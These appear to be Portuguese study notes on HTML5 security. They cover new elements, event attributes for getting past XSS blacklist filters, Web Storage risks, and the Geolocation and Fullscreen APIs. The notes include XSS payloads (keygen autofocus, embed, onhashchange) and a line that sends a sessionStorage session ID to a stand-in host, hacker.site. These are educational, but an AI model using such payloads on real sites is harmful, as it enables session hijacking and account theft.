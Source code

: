 # HTML5 - Intro, Recap & More

## Semantics

Com as atualizações do HTML5 novos elementos foram inseridos como por exemplo, elementos de mídia, tipos de formulário e atributos. 

Com isso podemos usar esses elementos para burlar filtros de blacklisting em ataques de XSS por exemplo

**Form Elements**

Um elemento novo é o <keygen>que possui o atributo autofocus. Útil para explorar XSS sem interação do usuário

```html
<form action="#" method="GET">
	Encryption: <keygen name="security" autofocus onfocus="alert(1);">
</form>
```

**Media Elements**

Além dos elementos \<video> e \<audio> que são comumente usados, também existem os elementos <source>, <track> e \<embed> que possuem o atributo src

```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
```

**Semantic/Structural Elements**

Existem muitos outros elementos usados para melhorar a estrutura da página como:
\<article>, \<figure>, \<footer>, \<header>, \<main>, \<mark>, \<nav>, \<progess>, \<section>, \<summary>, \<time>, etc...

Todos eles suportam Event Attributes

**Attributes**

Existem uma lista enorme de eventos interessantes como: onhashchange, onformchange, onscroll, onresize...

```html
<body onhashchange="alert(1)">
	<a href="#">Click me!</a>
```

## Offline & Storage

Do ponto de vista de segurança, o maior problema com o Web Storage é não ter ciência de quais tipos de dados estão sendo armazenados. Isso permite vários cenários de ataque como: Session Hijacking, User Tracking, Disclosure of Confidential Data, etc...

**Session Hijacking**

Por exemplo, se um desenvolvedor estiver armazenando IDs de sessão usando o sessionStorage, é possível realizar o roubo de sessão explorando um XSS

```javascript
new Image().src="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'))
```

Os mecanismos de web storage não implementam um mecanismo de mitigação do risco, como o HttpOnly

**Attack Scenarios**

Com aplicações web offline, o problema mais crítico é o Cache Poisoning

## Device Access

Uma das funcionalidades mais medonhas implementadas no HTML5 é o Geolocation API. Ela provê acesso a localização do usuário baseado em coordenadas de GPS

Essa API pode ser usada para realizar um tracking do usuário e também para quebrar o anonimato

Outra função interessante é a Fullscreen. Ela permite  que um único elemento seja visto em modo full-screen

O Fullscreen API pode ser usado em ataques de Phishing

## Performance, Integration & Connectivity

No HTML5 muitas funcionalidades foram introduzidas para prover performace e interação com o usuário, como por exemplo, Drag and Drop, HTML editing e Workers

Melhorias também foram feitas na comunicação, com funcionalidades como WebSocket e XMLHttpRequest2

Do ponto de vista de segurança, as funcionalidades mais importantes são: Content Security Policy, Cross-Origin Resource Sharing, Cross-Document Messaging e o reforço de iframes com atributos de Sandboxed

# Exploiting HTML5

